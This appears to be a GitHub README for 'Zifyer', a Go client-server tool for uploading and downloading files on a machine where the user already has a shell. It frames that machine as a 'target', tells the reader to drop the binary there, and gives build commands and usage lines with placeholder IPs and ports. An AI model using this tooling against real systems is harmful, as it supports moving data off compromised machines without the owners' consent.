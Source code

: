 <h1>Zifyer Client-Server</h1>
This is a small tool to upload/download files from a machine while connected with a shell to it
<p>Steps:</p>
<p>1. Get a shell to the target</p>
<p>2. Run the server on your machine.</p>
<p>3. Drop the Zifyer binary to target machine.</p>
<p>4. Upload/Download files between the shells.</p>

<p>For those who are knew to this:</p>
<p>apt-get install golang</p>

<h3>Compile for windows x86/x64:</h3>
<p>GOOS=windows GOARCH=amd64 go build -o Zifyer.exe Client.go</p>
<p>GOOS=windows GOARCH=386 go build -o Zifyer.exe Client.go</p>

<h3>Compile for linux </h3>

go build Client.go


<h3>Zifyer.exe Usage:</h3>
<p>-h for help</p>
<p>-d download mode</p>
<p>-u upload mode </p>
<p>-H IP </p>
<p>-p Port </p>
<p>-f File </p>

<h4>Download to machine mode: </h4>
<p>Zifyer.exe -d -H "Remote I.P/DOMAIN" -p "Port" -f "file location example: /home/test.txt"</p>

<h4>Upload to machine mode:</h4>
<p>Zifyer.exe -u -H "I.P/DOMAIN to get file from" -p "Port" -f "file location example: /home/test.txt"</p>


<h3>Zifyer_Server Usage:</h3>
<p>-h for help</p>
<p>-H IP to host server </p>
<p>-p Port </p>
<p>dir Directory to store uploads</p>

<p>./Zifyer_Server -H "I.p to host the server" -p "Port" dir "Directory to upload the files to" 
<p>1. compile -> go build Final_Server.go</p>
<p>2. run -> ./Zifyer -H "Your I.P" -p 9000 dir uploads </p>
<p> File upload can also be made via Web, just go to your server's url and upload manually :) </p>

